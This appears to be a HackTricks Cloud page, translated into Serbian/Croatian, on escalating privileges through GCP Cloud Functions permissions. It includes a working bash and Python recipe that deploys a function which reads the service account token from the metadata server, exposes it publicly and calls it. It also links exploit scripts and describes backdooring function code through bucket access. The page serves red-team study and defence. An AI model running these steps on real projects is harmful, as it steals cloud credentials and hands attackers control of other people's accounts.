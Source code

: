 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Više informacija o Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napadač sa ovim privilegijama može **napraviti novu Cloud Function sa proizvoljnim (malicioznim) kodom i dodeliti joj Service Account**. Zatim, leak-ovati token Service Account-a iz metapodataka kako bi eskalirao privilegije na njega.\
Neke privilegije za aktiviranje funkcije mogu biti potrebne.

Eksploatacijski skripti za ovu metodu mogu se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) i [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), a prebuilt .zip datoteka može se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napadač sa ovim privilegijama može **modifikovati kod funkcije i čak modifikovati servisni nalog koji je povezan** sa ciljem exfiltracije tokena.

{% hint style="danger" %}
Da biste implementirali cloud funkcije, takođe će vam biti potrebne actAs dozvole za podrazumevani servisni nalog za računanje ili za servisni nalog koji se koristi za izgradnju slike.
{% endhint %}

Neke dodatne privilegije kao što su `.call` dozvola za verziju 1 cloudfunctions ili uloga `role/run.invoker` za aktiviranje funkcije mogu biti potrebne.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Ako dobijete grešku `Permission 'run.services.setIamPolicy' denied on resource...` to je zato što koristite parametar `--allow-unauthenticated` i nemate dovoljno dozvola za to.
{% endhint %}

Eksploatacijski skript za ovu metodu možete pronaći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Sa ovom dozvolom možete dobiti **potpisani URL kako biste mogli da otpremite datoteku u funkcijski bucket (ali kod funkcije neće biti promenjen, još uvek ga morate ažurirati)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nisam baš siguran koliko je ova dozvola korisna iz perspektive napadača, ali dobro je znati.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Dajte sebi bilo koju od prethodnih **`.update`** ili **`.create`** privilegija da biste eskalirali.

### `cloudfunctions.functions.update`

Samo imajući **`cloudfunctions`** dozvole, bez **`iam.serviceAccounts.actAs`** nećete moći da ažurirate funkciju, PA TO NIJE VALIDNA PRIVESC.

### Pristup za čitanje i pisanje nad bucket-om

Ako imate pristup za čitanje i pisanje nad bucket-om, možete pratiti promene u kodu i kada god dođe do **ažuriranja u bucket-u, možete ažurirati novi kod sa svojim kodom** koji će nova verzija Cloud Function-a pokrenuti sa dostavljenim backdoored kodom.

Možete proveriti više o napadu u:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Međutim, ne možete ovo koristiti za prethodno kompromitovanje trećih strana Cloud Functions, jer ako kreirate bucket u svom nalogu i date mu javne dozvole tako da eksterni projekat može pisati preko njega, dobićete sledeću grešku:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Međutim, ovo bi moglo biti korišćeno za DoS napade.
{% endhint %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
